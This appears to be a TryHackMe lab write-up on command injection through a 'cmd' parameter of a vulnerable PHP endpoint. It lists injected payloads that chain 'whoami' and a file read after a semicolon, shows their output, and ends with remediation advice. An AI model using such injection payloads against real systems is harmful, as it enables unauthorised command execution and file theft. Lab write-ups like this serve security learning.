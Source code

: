 # Command Injection — TryHackMe

**Date:** 2025-09-20  
**Platform:** TryHackMe (lab)  
**Vulnerability:** Command Injection

## Summary
A web endpoint accepted shell-style input via the `cmd` parameter, allowing OS commands to be executed by the web process.

## Target
`http://<lab>/vulnerable.php?cmd=<payload>`

## Exploitation (what I ran)
- Payload: `127.0.0.1; whoami`  
  **Result:** `www-data` (the web application user)
- Payload: `127.0.0.1; cat /home/tryhackme/flag.txt`  
  **Result:** `THM{COMMAND_INJECTION_COMPLETE}` (flag retrieved)

## Impact
- Remote command execution under `www-data`.  
- Ability to read files available to the web user.  
- Further escalation possible depending on server privileges (e.g., sudo or docker membership).

## Remediation
1. Remove direct shell execution of user input; use safe native APIs.  
2. If shell calls are necessary, implement a strict allowlist of permitted commands (no concatenation of user input).  
3. Validate and canonicalize inputs; strip or reject shell metacharacters (`;`, `|`, backticks, `$()`).  
4. Run web services with least privilege and monitor for suspicious requests.

## Evidence / Artifacts
- Screenshot: ![Whoami Output](../screenshots/tryhackme_whoami_www-data.png)
- Screenshot:![Flag](../screenshots/tryhackme_flag.png)  
 
- Commands used (examples):
 127.0.0.1; whoami
 127.0.0.1; cat /home/tryhackme/flag.txt